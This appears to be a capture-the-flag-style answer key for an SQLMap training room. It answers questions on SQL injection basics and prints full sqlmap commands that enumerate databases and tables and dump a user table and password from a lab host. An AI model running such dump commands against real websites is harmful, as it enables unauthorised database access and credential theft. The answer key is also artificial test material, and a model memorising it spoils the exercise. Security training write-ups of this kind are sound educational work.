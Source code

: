 Q1. Which language builds the interaction between a website and its database?
Ans: sql

Q2. Which boolean operator checks if at least one side of the operator is true for the condition to be true?Which boolean operator checks if at least one side of the operator is true for the condition to be true?
Ans: or

Q3. Is 1=1 in an SQL query always true? (YEA/NAY)
Ans: YEA

Q4. Which flag in the SQLMap tool is used to extract all the databases available?
Ans:--dbs

Q5. What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)
Ans:sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables

Q6. How many databases are available in this web application?
sqlmap "-u http://10.201.4.143/ai/includes/user_login?email=test&password=test" --dbs --level=5

<img width="949" height="470" alt="Screenshot 2025-08-05 232740" src="https://github.com/user-attachments/assets/d212d5f9-7608-4d36-b188-87c33c4188c5" />
Ans:6

Q7. What is the name of the table available in the "ai" database?
sqlmap "-u http://10.201.4.143/ai/includes/user_login?email=test&password=test" -D ai --tables --level=5
<img width="924" height="425" alt="Screenshot 2025-08-05 232730" src="https://github.com/user-attachments/assets/01bd7d39-cedf-46d9-b267-320228afb32c" />

Ans:user

Q8. What is the password of the email test@chatai.com?
sqlmap -u "http://10.201.4.143/ai/includes/user_login?email=test&password=test" -D ai -T user --dump --level=5
<img width="957" height="598" alt="Screenshot 2025-08-05 232939" src="https://github.com/user-attachments/assets/baf987fb-17ec-4b1c-93f9-6887404d4d20" />

Ans:12345678

